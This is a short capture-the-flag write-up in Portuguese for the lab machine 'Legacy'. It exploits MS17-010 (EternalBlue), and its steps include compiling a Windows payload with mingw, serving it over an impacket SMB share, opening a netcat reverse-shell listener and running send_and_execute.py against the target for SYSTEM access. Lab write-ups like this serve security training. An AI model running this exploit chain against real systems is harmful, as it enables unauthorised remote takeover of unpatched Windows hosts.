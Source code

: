 Legacy
========================

## Enumeration

    sudo nmap_enum legacy.htb

![qownnotes-media-pLkesf](../../../media/qownnotes-media-pLkesf.png)

## Exploitation

Partindo do principio que ja tenho os exploits prontos para executar na maquina, prosseguiremos com ambiente virtual do python

    cd /home/kali/ownCloud/owncloud/Area_de_trabalho/tools/cves/CVE-2017-0143/MS17-010/impacket
    
    source exploit_ms17-010/bin/activate
    
Pronto, agora eu so preciso preparar o payload para execucao na maquina alvo:

    vi backup.c
    
![qownnotes-media-kTCNcQ](../../../media/qownnotes-media-kTCNcQ.png)

    i686-w64-mingw32-gcc backup.c -o backup_10_10_14_134.exe
    impacket-smbserver smb .

Em um outro terminal eu preparei o netcat para  a shell reversa:

    nc -nlvp 80

Retrocedendo para o primeiro passo da exploracao, agora basta exeutarmos o exploit:

    python send_and_execute.py 10.129.254.79 ../payload/backup_10_10_14_134.exe
  
 ![qownnotes-media-LejsFv](../../../media/qownnotes-media-LejsFv.png)

Como essa vulnerabilidade te coloca na maquina como system, nao e necessario a etapa de escalacao de privilegio.